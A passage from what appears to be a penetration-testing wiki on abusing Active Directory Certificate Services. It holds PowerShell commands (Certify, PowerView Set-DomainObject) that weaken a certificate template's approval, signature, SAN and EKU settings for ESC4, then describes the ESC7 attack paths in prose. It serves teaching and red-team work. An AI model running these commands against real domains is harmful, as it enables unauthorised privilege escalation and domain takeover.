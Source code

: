 === Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate these sensitive access control entries. At the time of writing (October 21st, 2021) [BloodHound](../../recon/bloodhound/index) doesn't support (yet) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.

```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

:::


> [!WARNING]
>
> If sensitive access entries are identified, creativity will be the best ally.
> 
> Currently, the best resources for manually abusing this are
> 
> * [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
> * [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)


### Certificate Authority (ESC7)

There are two attacks paths for this scenario:

1. If an attacker gains control over a principal that's able to edit the CA server registries (e.g. local admin, or `ManageCA`?), and is able to restart the `CertSrv` service on the server, he can make the CA vulnerable to ESC6 and exploit that
2. Alternatively, if an attacker gains control over a principal that has the `ManageCA` right over the CA object, he can remotely obtain the `ManageCertificates` right and with those two rights combined, approve pending certificate requests, subverting the "CA certificate manager approval" protection (referred to as PREVENT4 in [the research whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)).
